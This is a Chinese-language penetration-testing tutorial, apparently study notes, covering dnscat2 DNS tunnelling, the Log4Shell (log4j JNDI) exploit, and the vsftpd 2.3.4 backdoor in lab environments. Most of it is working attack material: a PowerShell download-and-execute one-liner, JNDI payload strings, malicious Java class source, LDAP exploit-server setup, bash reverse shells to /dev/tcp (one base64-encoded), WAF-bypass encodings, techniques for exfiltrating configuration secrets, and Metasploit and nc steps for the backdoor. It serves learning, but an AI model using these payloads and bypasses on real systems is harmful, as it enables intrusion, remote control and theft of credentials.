Dnscat2是一个DNS隧道工具，通过DNS协议创建加密的命令和控制通道。Dnscat2分为client端和server端，client运行在被控机器上，server运行在DNS服务器上。client，server部分分别是用C，ruby写的。其中作者在实现client部分时实现了跨平台，支持linux和windows编译运行。在完成连接建立后可以实现建立shell，上传下载文件等功能。

github项目地址：<https://github.com/iagox86/dnscat2>

**步骤**

* 第一步


攻击机：

~~~bash
ruby dnscat2.rb --dns "domain=[dns服务器域名],host=[攻击机ip]" --no-cache -e open -e open 
~~~

* 第二步


靶机：

~~~bash
owershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1');Start-Dnscat2 -Domain [dns服务器域名] -DNSServer [攻击机ip]
~~~


# 漏洞利用分析案例

## 0x01 log4j漏洞利用

 2021年12月10日，公布了apache 的 log4j漏洞，影响甚广，引得圈内热闹非凡。


### 原理

log4j为java技术栈中，常用的日志框架。在编写程序时，常常需要在日志中输出程序中的一些变量进行查看，测试程序的正确性。
log4j的强大之处在于，除了可以输出程序中的变量，它还提供了Lookups接口，可以用来输出更多内容。感兴趣的同学可以进入该网址了解：<https://logging.apache.org/log4j/2.x/manual/lookups.html>


而该强大的功能是通过JNDI注入来完成的，具体的有RMI协议的方式和LDAP协议等不同方式。JNDI(Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了**查找和访问各种命名和目录服务**的通用、统一的接口，类似JDBC都是构建在抽象层上。现在JNDI已经成为J2EE的标准之一，所有的J2EE容器都必须提供一个JNDI的服务。过于强大的功能使得远程命令/代码执行漏洞（remote command/code execute，RCE）和Java反序列化漏洞的双重作用下，形成log4j漏洞。


**攻击流程**

.png)

1.攻击伪装一个请求体，里面含有JNDI可执行的服务, 主要是LDAP与RMI两种协议，请求URL如下。

```
 ${jndi:ldap://127.0.0.1:1389/Exploit}

 ${jndi:rmi://127.0.0.1:1389/Exploit}
```

2.在应用程序恰巧输出了请求头或者入参的log日志时,就会触发此URL的请求，并主动请求了攻击者准备的LADP/RMI服务。

3.利用LADP/RMI的特性，伪装返回值，含有要执行的恶意Class文件地址，与Class类名。

4.被攻击的服务器找不到对应Class文件就会触发JNDI的机制从远程服务器中下载Class。

5.用我们事先准备好的web服务给被攻击服务器提供可执行Class文件下载，被攻击服务器拿到到Class文件后会触发反序列化执行代码，达到了远程执行代码的目的漏洞复现。

### 实践
* **实验环境**

  攻击机：kali	ip 192.168.180.130

  靶机：雷石安全实验室搭建的漏洞靶场

* **步骤**
  
  * 第一步：雷石安全实验室搭建的漏洞靶场docker-compose.yml地址：

​			https://github.com/fengxuangit/log4j_vuln

​			或者直接运行命令搭建docker对象（需要提前安装好docker）。

  ```bash
docker pull registry.cn-hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker run -it -d -p 8080:8080 --name log4j_vuln_container registry.cn-   hangzhou.aliyuncs.com/fengxuan/log4j_vuln
docker exec -it log4j_vuln_container /bin/bash
/bin/bash /home/apache-tomcat-8.5.45/bin/startup.sh
  ```

  访问http://127.0.0.1:8080/webstudy/


  * 第二步：客户端编写恶意类。

例如：

 该例子效果为弹出计算器。

```java
public class Exploit {
  public Exploit(){
    try{
      // 要执行的命令
      String[] commands = {"open", "/System/Applications/Calculator.app"};
      Process pc = Runtime.getRuntime().exec(commands);
      pc.waitFor();
   } catch(Exception e){
      e.printStackTrace();
   }
 }

  public static void main(String[] argv) {
    Exploit e = new Exploit();
 }
}
```

* 第三步：将恶意类编译，得到Exploit.class。

  ```
  javac Exploit.java
  ```

* 第四步：在当前目录输入如下命令，启动一个web服务，充当着远程下载的作用。

  ```bash
  python3 -m http.server 8100
  ```


   * 第五步：输入如下命令启动marshalsec IDAP服务。

   项目地址：https://github.com/mbechler/marshalsec

```bash
java -cp /Users/fengxuan/Downloads/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://127.0.0.1:8100/#Exploit"
```


* 第六步：在网页中发送带有参数c的post请求，其中c中包含该攻击者启动的IDAP服务地址，服务端收到请求后，向攻击者的服务。


服务器端含有漏洞的程序如下。

```java
package com.evalshell.webstudy;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

import java.io.*;
import javax.servlet.ServletException;
import javax.servlet.http.*;
import javax.servlet.annotation.*;


@WebServlet(name = "helloServlet", value = "/hello-fengxuan")
public class HelloServlet extends HttpServlet {
  private String message;
  private static final Logger logger = LogManager.getLogger(HelloServlet.class);

  public void init() {
    message = "Hello World!";
 }

  public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
    response.setContentType("text/html");
    response.setHeader("Content-Type", "text/html; charset=utf-8");
    System.out.println(request.getQueryString());


    // Hello
    PrintWriter out = response.getWriter();
    out.println("<html><body>");
    out.println("<span>你好，兄弟，请用post请求来搞我！</span>");
    out.println("</body></html>");
 }


  protected void doPost(HttpServletRequest req, HttpServletResponse resp) throws ServletException, IOException {
    String name = req.getParameter("c");
    System.out.println(name);
    logger.error(name);
    resp.setContentType("text/html");
    resp.setHeader("Content-Type", "text/html; charset=utf-8");
    PrintWriter out = resp.getWriter();
    out.println("<html><body>");
    out.println("<h1>可恶！又被你装到了！</h1>");
    out.println("</body></html>");
 }

  public void destroy() {
 }
}
```

* 第七步：运行结果。由于docker搭建靶机，只有shell窗口，因此看不到靶机弹出计算器的效果。 

  

* 第八步：反弹shell

攻击机监听本地端口

```bash
nc -lvvp [port]
```

构造payload

使靶机执行：

```bash
bash -i >& /dev/tcp/[ip]/[port] 0>&2
```

①可以使用如上方式的java恶意类执行。

②也可以使用针对JNDI注入开发出来的攻击工具JNDIExploit-1.2-SNAPSHOT.jar ，下载地址如下。

链接：https://pan.baidu.com/s/1pNWfziQWeJ0PVssqSqWPNQ 
提取码：twgp

该工具是一个可执行jar包，可使用如下命令执行。

```bash
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i [ip]
```


在该工具执行的基础上，构造payload。

```
${jndi:ldap://[ip]:1389/Basic/Command/[command]}
```
或
```
${jndi:ldap://[ip]:1389/Basic/Command/Base64/[base64_encoded_cmd]}
```
下面我选用的是后者base64编码的命令，base64编码的命令载荷在网络传输中有着命中率较高的优势。

Base64编码在线工具地址：http://tool.chinaz.com/tools/base64.aspx
```bash
bash -i >& /dev/tcp/192.168.180.130/6666 0>&1
```
经过base64编码放入参数中
```
c=${jndi:ldap://[ip]:1389/Basic/Command/Base64/YmFzaCAtaSAmZ3Q7JiAvZGV2L3RjcC8xOTIuMTY4LjE4MC4xMzAvNjY2NiAwJmd0OyYyIA==}
```
向网页发送带有payload的post请求。

.png)

反弹shell成功。


### 其他利用方式

1.绕过防火墙WAF

该漏洞曝光后各安全厂商也纷纷推出了解决方案，WAF、RASP、改源码、改配置文件、更新到rc2等。在此次漏洞中最没有防御效果的就是 WAF。有提出 ${ 、jndi、ldap、rmi 等关键词规则的防护。但研究后发现都会存在被绕过问题。首先是 jndi、ldap 简直太容易被绕过，只要用 lowerCase upperCase 就可以把关键词分割开，如果是用了正则的话那还可以使用 upper 把 jndı 转成 jndi。

**注意**：这里的 ı(\u0131) 不是 i(\x69)和I(\x49)，经过 toUpperCase 就会转变成 I。从而绕过了 jndi 关键词的拦截。

再就是 ${ 关键词的拦截了，虽然这个范围有点大可能会产生一些误报，但鉴于漏洞的严重性还是有很多人建议拦截 ${，但这样也未必能够真正的解决，因为漏洞的触发点是在打印日志的时候把可控内容携带进去了。那么可控内容从哪里来？

```
Header、URL、键值对参数、JSON参数、XML参数 ...
```

现在随着 JSON 数据格式的流行，很多系统都在使用 JSON 处理参数，JSON 处理库用的最多的就数 Jackson和fastjson。而 Jackson 和 fastjson 又有 unicode 和 hex 的编码特性。

例如:

```json
   {"key":"\u0024\u007b"}                              
   {"key":"\x24\u007b"}       
```

这样就避开了数据包中有 ${ 的条件，所以 WAF 的防护规则还要多考虑几种编码。

2.信息泄露

 sys、env 这两个 lookup 的 payload 也在讨论中被频繁提起，实际上他们分别对应的是 System.getProperty() 和 System.getenv()，能够获取一些环境变量和系统属性。部分内容是可以被携带在dnslog 传出去的。

除了 sys、env 以外， ResourceBundleLookup 也可以获取敏感信息。

```java
public String lookup(final LogEvent event, final String key) {
	if (key == null) {
		return null;
    }
	final String[] keys = key.split(":");
	final int keyLen = keys.length;
	if (keyLen != 2) {
		LOGGER.warn(LOOKUP, "Bad ResourceBundle key format [{}]. Expected format is BundleName:KeyName.", key);
		return null;
  }
	final String bundleName = keys[0];
	final String bundleKey = keys[1];
	try {
		// The ResourceBundle class caches bundles, no need to cache here.
		return ResourceBundle.getBundle(bundleName).getString(bundleKey);
	} catch (final MissingResourceException e) {
		LOGGER.warn(LOOKUP, "Error looking up ResourceBundle [{}].", bundleName, e);
		return null;
	}
}
```

从代码上来看就很好理解，把 key 按照 : 分隔成两份，第一个是 bundleName 获取 ResourceBundle，第二个是 bundleKey 获取 Properties Value。

ResourceBundle 在 Java 应用开发中经常被用来做国际化，网站通常会给一段表述的内容翻译成多种语言，比如中文简体、中文繁体、英文。

那开发者可能就会使用 ResourceBundle 来分别加载 classpath 下的 zh_CN.properties、en_US.properties。并按照唯一的 key 取出对应的那段文字。例如： zh_CN.properties

```java
LOGIN_SUCCESS = 登录成功
```

那么，

```java
ResourceBundle.getBundle("zh_CN").getString("LOGIN_SUCCESS") 
```

获取到的就是登录成功。

如果系统是 springboot 的话，它会有一个 application.properties 配置文件。里面存放着这个系统的各项配置，其中有可能就包含 redis、mysql 的配置项。当然也不止 springboot，很多其他类型的系统也会写一些类似 jdbc.properties 的文件来存放配置。

这些 properties 文件都可以通过 ResourceBundle 来获取到里面的配置项。所以在 log4j 中 Bundle 是比sys和env更严重的存在。在不出网的环境下可以通过 dnslog 的方式来外带信息，除了dnslog以外还可以通过ldap、dns这两种方法来获取信息。

## 0x02 Vsftpd v2.3.4笑脸漏洞

### 原理

vsftpd是Linux类操作系统上运行的FTP服务器软件。而在vsftpd2.3.4中在6200端口存在一个shell,使得任何人都可以进行连接，并且VSFTPD v2.3.4 服务，是以 root 权限运行的，最终我们获得权限也是root。

### 实践

* **实验环境**

攻击机：kali linux               IP：192.168.79.128
目标机：metaploitable2    IP：192.168.79.130

.png)

用户名：msfadmin/user  密码msfadmin/user
metaploitable2 下载地址：<https://sourceforge.net/projects/metasploitable/files/Metasploitable2/>

* **步骤**

先试验攻击机是否能与目标机ping通

.png)

#### **使用msf进行漏洞利用**

* **第一步**：打开kali终端，输入指令：

  ~~~bash
  msfconsole
  ~~~

  .png)

* **第二步**：输入以下命令启动漏洞利用模块，提示符就会提示进入该路径下

  ~~~bash
  use exploit/unix/ftp/vsftpd_234_backdoor
  ~~~

* **第三步**：设置目标主机的ip地址

  ~~~bash
  set RHOST 目标主机ip
  ~~~

* **第四步**：开始向目标主机攻击，攻击成功后，建立shell会话

  ~~~
  exploit
  ~~~

  .jpg)

* **第五步**：在终端中输入以下命令，查看获得权限

  ~~~bash
  id
  whoami
  hostname
  ~~~
  
  .png)


查看目标主机ip

~~~bash
ifconfig
~~~

.png)

#### **使用nc进行漏洞扫描**

* **第一步**：使用nmap工具扫描目标机，对目标机进行信息搜集，对应的vsftpd2.3.4即位后门版本

输入命令：

~~~bash
nmap -sV -n 目标机IP
~~~

.png)

或输入：

~~~bash
nmap -A -sV -n --open 192.168.79.130
~~~

.png)

相关nmap指令解释：

~~~bash
-A:启用操作系统检测、版本检测、脚本扫描和跟踪路由
-sV：探测打开的端口以确定服务/版本信息
-n:从不进行DNS解析/始终解析[默认值：有时]
--open：仅显示打开（或可能打开）的端口
~~~

更多nmap指令可以到该网址查看：<https://blog.csdn.net/weixin_45551083/article/details/106967465>

可以看到存在匿名登录

.png)

* **第二步**：尝试使用匿名用户名(anonymous)进行登录，登录状态为230 Login successful即说明匿名登录成功

输入登录：

~~~~bash
ftp 目标ip
~~~~


.png)

* **第三步**：用nc去扫描端口，结果发现指示的6200端口并未开放，这说明后门还未激活

  ~~~bash
  nc -nvv 目标ip 6200
  ~~~

  .png)

* **第四步**：尝试手工激活后门，继续使用ftp登录，此时用户名为 **user:)**   密码随意

  .png)

* **第五步**：登录成功，然后打开另一个终端，使用nc连接目标机的6200端口

输入命令：

~~~bash
nc 目标ip 6200
~~~

如图，此时已经成功连接了后门并建立了shell会话，可以开始执行命令，可以在该主机上上传文件等。

.png)

* **问题**

使用nmap扫描发现6200端口已经激活，可以确定shell已经建立，在使用nc进行漏洞扫描遇到了权限问题或者登录超时问题：

.png)

.png)

.png)

.png)

解决方案：一般kali默认不安装ftp

按顺序输入如下命令：

~~~bash
ps aux|grep apt-get
kill pid
sudo rm /var/cache/apt/archives/lock
sudo rm /var/lib/dpkg/lock
sudo dpkg --conifgure -a 
sudo apt-get update
sudo apt-get install vsftpd
~~~

* **心得**

虽然这个漏洞是比较老的，但是这个是个高危漏洞，还是有很多地方可以值得我们学习。与此同时我们也应该知法守法。

# 学习资源

**微信公众号**

雷石安全实验室、安全档案、中安网星。

**书籍**

《0day安全软件漏洞分析技术》、《python渗透测试编程技术 方法与实践》、《网络攻防实战研究——漏洞利用与提权》。

**靶场、靶机**

vulnhub靶场

https://www.vulnhub.com/

msf靶机下载地址

http://downloads.metasploit.com/data/metasploitable/metasploitable-linux-2.0.0.zip

**信息获取平台**

国家安全信息漏洞共享平台